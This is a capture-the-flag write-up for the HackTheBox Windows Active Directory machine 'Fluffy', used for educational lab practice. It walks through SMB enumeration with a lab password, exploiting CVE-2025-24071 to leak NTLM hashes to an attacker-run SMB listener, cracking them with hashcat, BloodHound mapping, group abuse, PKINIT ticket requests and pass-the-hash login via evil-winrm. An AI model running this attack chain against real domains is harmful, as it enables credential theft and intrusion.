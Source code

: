 Welcome to my writeup for the HackTheBox machine Fluffy. Fluffy is a easy Windows Active Directory box that focuses on enumeration, SMB exploitation, Kerberos attacks, and privilege escalation. 
This repository is for educational purposes only.

## Nmap Scan

```
Nmap scan report for 10.129.127.23
Host is up (0.035s latency).
Not shown: 989 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-08-20 21:05:51Z)
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: fluffy.htb0., Site: Default-First-Site-Name)
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

```


### Key Findings
- Exposed SMB shares
- Kerberos & LDAP suggest Active Directory Domain Controller
- WinRM service available


```
smbmap -H 10.129.186.239 -u j.fleischman -p J0elTHEM4n1990!

smbclient //10.129.186.239/IT -U 'j.fleischman'

mget *
```

On SMB, we see that we have write permission for the IT share, and we find a PDF with vulnerabilities.

Now that we have the list of vulnerabilities, let's move on to exploits.


To find a good example of how to run a exploit CVE- Title -github poc in google. 
You should find https://github.com/LOOKY243/CVE-2025-24071-PoC


### Steps
1. Copy the exploit.py file to your machine 
2. python3 ```exploit.py -i 10.10.16.40 -s shared -f evil```
 3. Start listener for hash capture:
   ```sudo impacket-smbserver shared /home/franky/Documents/FLUFFY -smb2support```
   3. Upload payload to target IT share.
      ``put evil.zip``

4. You should se username + hash on listner.

5. Crack the with rockyou.txt: 
  ``` hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt``

6. Now we have a new username and password. You might try evil-winrm, but the user does not have permission. So, let's enumerate more. Create a BloodHound file and upload to bloodhound review.
      ```
        sudo nxc ldap dc01.fluffy.htb -u '<USERNAME>' -p '<PASSWORD>' \
      --bloodhound --collection All --dns-tcp --dns-server <TARGET_IP> ```


Observations

The user we found is in SERVICE ACCOUNT MANAGERS, which has full control (GenericAll) over SERVICE ACCOUNTS; SERVICE ACCOUNTS can modify WINRM_SVC (GenericWrite).

Implications: User can indirectly modify service accounts. Compromising this user could allow escalation to WINRM_SVC via the permission chain. WINRM_SVC can access remote login is and likely has the flag. 

## Preparations

- Install the following tools in a virtual environment:
  - `pywhisker`
  - `PKINITtools`
  - `faketime`
- Starting a virtual environment might also be useful 

---

## Add User to Service Accounts

```
net rpc group addmem "Service Accounts" "<USER>" \
  -U "dc01.fluffy.htb"/"<USER>" -S "<TARGET_IP>" ```


Request Kerberos TGT for Service Account

If your local time does not match the Domain Controller (DC), you may encounter errors. Synchronize time first:

sudo rdate -n <TARGET_IP>


Generate a TGT using faketime:
```
faketime '<DATE_TIME>' python3 gettgtpkinit.py \
  -cert-pem key_cert.pem \
  -key-pem key_priv.pem \
  fluffy.htb/<SERVICE_ACCOUNT> \
  <SERVICE_ACCOUNT>.ccache```


Set the Kerberos ticket environment variable:

```export KRB5CCNAME=<SERVICE_ACCOUNT>.ccache```


Tip: Ensure the KRB5CCNAME export works in your virtual environment. Use an absolute path if necessary.

Retrieve NT Hash
```faketime '<DATE_TIME>' python3 getnthash.py \
  -key <KEY> fluffy.htb/<SERVICE_ACCOUNT>```

Access Service Account
```evil-winrm -i <TARGET_IP> -u <SERVICE_ACCOUNT> -H <NT_HASH>```



